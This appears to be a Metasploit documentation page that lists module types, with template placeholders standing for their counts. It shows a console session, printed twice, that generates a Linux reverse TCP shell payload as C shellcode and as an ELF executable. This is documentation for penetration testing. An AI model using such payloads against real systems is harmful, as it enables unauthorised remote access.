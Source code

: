 ## Metasploit modules
## Module types
### Auxiliary modules ({{ site.metasploit_module_counts["auxiliary"] }})
### Encoder modules ({{ site.metasploit_module_counts["encoder"] }})
### Evasion modules ({{ site.metasploit_module_counts["evasion"] }})
### Exploit modules ({{ site.metasploit_module_counts["exploit"] }})
### Nop modules ({{ site.metasploit_module_counts["nop"] }})
### Payloads modules ({{ site.metasploit_module_counts["payload"] }})
Payload modules can also be used individually to generate standalone executables, or shellcode for use within exploits:
```msf
msf6 payload(linux/x86/shell_reverse_tcp) > back
msf6 > use payload/linux/x86/shell_reverse_tcp
msf6 payload(linux/x86/shell_reverse_tcp) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf6 payload(linux/x86/shell_reverse_tcp) > set lport 4444
lport => 4444

# Generate a payload for use within C
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f c

# Generate an ELF file for execution on Linux environments
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f elf -o linux_shell
```

`msf
msf6 payload(linux/x86/shell_reverse_tcp) > back
msf6 > use payload/linux/x86/shell_reverse_tcp
msf6 payload(linux/x86/shell_reverse_tcp) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf6 payload(linux/x86/shell_reverse_tcp) > set lport 4444
lport => 4444

# Generate a payload for use within C
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f c

# Generate an ELF file for execution on Linux environments
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f elf -o linux_shell
`

